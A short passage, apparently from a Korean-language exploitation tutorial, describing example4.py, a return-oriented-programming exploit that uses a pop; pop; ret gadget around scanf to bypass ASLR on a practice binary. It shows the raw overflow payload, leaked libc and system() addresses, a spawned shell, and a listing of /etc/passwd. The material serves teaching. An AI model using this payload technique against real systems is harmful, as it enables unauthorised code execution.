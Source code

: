 ```
  time.sleep(0.2)
  print read(out_r, 1024)
```
 example4.py에서는 pop; pop; ret 코드 가젯을 이용하여 esp 레지스터를 scanf 함수의 인자 2개 이후 주소로 가리키게 해주었다.      
 ![image](https://user-images.githubusercontent.com/59531805/79460062-3f2db600-802f-11ea-9467-df474222ef3d.png)   
example4.py를 실행하면 셸을 성공적으로 획득한 것을 볼 수 있다.
```
$ python example4.py
'Hello World!\r\n'
'Hello ASLR!\r\n'
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA&\x83\x04\x08\x1b\x85\x04\x08\x14\xa0\x04\x08@\x83\x04\x08\x1a\x85\x04\x08Y\x85\x04\x08\x14\xa0\x04\x08@\x83\x04\x08\xef\xbe\xad\xde\x18\xa0\x04\x08'
libc @ 0xf7d5b000
system @ 0xf7d95da0
[+] get shell
$ echo "SHELL_TEST"
SHELL_TEST
$ ls -al /etc/passwd
-rw-r--r-- 1 root root 2434 Oct 17 22:18 /etc/passwd
```













